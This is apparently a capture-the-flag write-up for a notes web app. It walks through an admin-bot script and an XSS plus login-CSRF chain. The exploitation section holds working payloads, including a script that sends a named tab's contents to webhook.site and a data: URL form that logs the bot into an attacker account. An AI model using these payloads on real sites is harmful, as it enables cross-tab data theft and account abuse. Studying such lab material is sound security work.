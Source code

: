 ## Enumeration
We receive the source code, two interesting files including `report.js` and `web.js`

```javascript
async function run(url) {

  let browser;

  

  try {

    module.exports.open = true;

    browser = await puppeteer.launch({

      headless: true,

      pipe: true,

      args: ['--incognito', '--no-sandbox', '--disable-setuid-sandbox'],

      slowMo: 10

    });

  

    let page = (await browser.pages())[0]

  

    await page.goto('http://0.0.0.0:8080/register');

    await page.type('[name="username"]', crypto.randomBytes(8).toString('hex'));

    await page.type('[name="password"]', crypto.randomBytes(8).toString('hex'));

  

    await Promise.all([

      page.click('[type="submit"]'),

      page.waitForNavigation({ waituntil: 'domcontentloaded' })

    ]);

  

    await page.goto('http://0.0.0.0:8080/new');

    await page.type('[name="title"]', 'flag');

    await page.type('[name="content"]', process.env.FLAG ?? 'ctf{flag}');

  

    await Promise.all([

      page.click('[type="submit"]'),

      page.waitForNavigation({ waituntil: 'domcontentloaded' })

    ]);

  

    await page.goto('about:blank')

    await page.goto(url);

    await page.waitForTimeout(7500);

  

    await browser.close();

  } catch(e) {

    console.error(e);

    try { await browser.close() } catch(e) {}

  }

  

  module.exports.open = false;

}

  

module.exports = { open: false, run }
```

This code means that, whenever we make a POST request to the `/report`, what's gonna happen is:
1. it registers for a new account, kinda like a bot
2. After successfully register, it goes to the `/new` route create a note called `flag` with the flag's content inside
3. After this, it goes to a blank tab, then navigates to whatever we put in the url input


An interesting thing about the other file, `web.js` is that some routes needs a csrf token
![[Pasted image 20250307193332.png]]

But `/login` doesn't. One more and the final notable thing is that, this website is XSS vulnerable
![[Pasted image 20250307193440.png]]

Ultimately, the attack vector would be:
1. Create an account
2. Create a note that leads to our web server/webhook and attach the flag content there
3. Create a payload to input in the `/report` path so that it opens that admin's flag and navigate to our payload

## Exploitation
The note's content would be
```javascript
<script>
if (window.location.search.includes("account_name")) { // This will look for the account_name in the current tab's URL string after the `?`
	window.location ="https://webhook.site/code?" + window.open("", flag).document.body.textContent // this will navigate to our webhook with the flag content appended by opening the tab whose name is flag
}
</script>
```

The URL (for the report) would be:
```Javascript
data:text/html,
<form action="http://0.0.0.0:8080/login" method=POST id="loginform" target="_blank">

  <input type="text" name="username" value="account_name"><input type="text" name="password" value="account_password">
</form> 
// Create a form element so we can submit it later

<script>

  window.open("http://0.0.0.0:8080/notes","flag"); // this will open another tab of the bot at the notes and name this tab flag so that the note's payload can work.
// Another thing to know is that when we change user, unless we reload, the content on this tab won't change (browser's behaviour)
  setTimeout(function() {loginform.submit()},1000); // we will login to our account

  setTimeout(function() {window.location="http://0.0.0.0:8080/notes?account_name"},2000); // we will navigate to the notes so the payload can execute. And since the URL now (on the bot's side, there are 2 tabs. This and its notes) contains the account_name which satisfies the condition, will give us the flag in the webhook.

</script>
```